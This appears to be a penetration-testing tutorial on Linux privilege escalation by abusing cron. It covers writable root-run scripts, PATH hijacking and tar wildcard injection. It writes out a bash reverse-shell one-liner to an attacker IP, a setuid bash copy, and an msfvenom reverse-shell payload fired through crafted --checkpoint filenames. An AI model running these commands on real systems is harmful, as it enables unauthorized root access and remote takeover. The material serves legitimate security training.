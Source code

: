 # cron/crontab abuse

## <mark style="color:red;">Crontab</mark> <a href="#top" id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access. cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges. In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

#### for example look for cron jobs with the following commands:&#x20;

#### `grep "CRON" /var/log/cron.log # works best for unprivileged users`&#x20;

#### `crontab -l`&#x20;

#### `ls -alh /var/spool/cron`&#x20;

#### `ls -al /etc/ | grep cron`&#x20;

#### `ls -al /etc/cron*`

#### &#x20;`cat /etc/cron*`&#x20;

#### `cat /etc/at.allow`

#### &#x20;`cat /etc/at.deny`&#x20;

#### `cat /etc/cron.allow`&#x20;

#### `cat /etc/cron.deny`&#x20;

#### `cat /etc/crontab`&#x20;

#### `cat /etc/anacrontab`

#### &#x20;`cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)

greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.

#### `` `echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

![](../../../.gitbook/assets/cron3.png)

## <mark style="color:red;">PATH Environment Variable</mark>

\
The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\\

![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### `nano /home/user/overwrite.sh`

#### &#x20;`#!/bin/bash`

#### &#x20;`cp /bin/bash /tmp/rootbash`

#### &#x20;`chmod +s /tmp/rootbash`

#### Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

#### `/tmp/rootbash -p`

![](../../../.gitbook/assets/cron6.png)

## <mark style="color:red;">Wildcards</mark>

\
Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\\

#### `ls *`

#### &#x20;`touch ./-l` `ls *`

![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.\
In fact we can create filenames that match complex options:\\

#### `--option=key=value`

[GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:\
\\

#### `$ cat /usr/local/bin/compress.sh`&#x20;

#### `#!/bin/sh`&#x20;

#### `cd /home/user`&#x20;

#### `tar czf /tmp/backup.tar.gz *`

Note that the tar command is run with a wildcard in the /home/user directory.\
GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:\\

#### `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\\

#### `touch /home/user/--checkpoint=1`&#x20;

#### `touch /home/user/--checkpoint-action=exec=shell.elf`

Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)
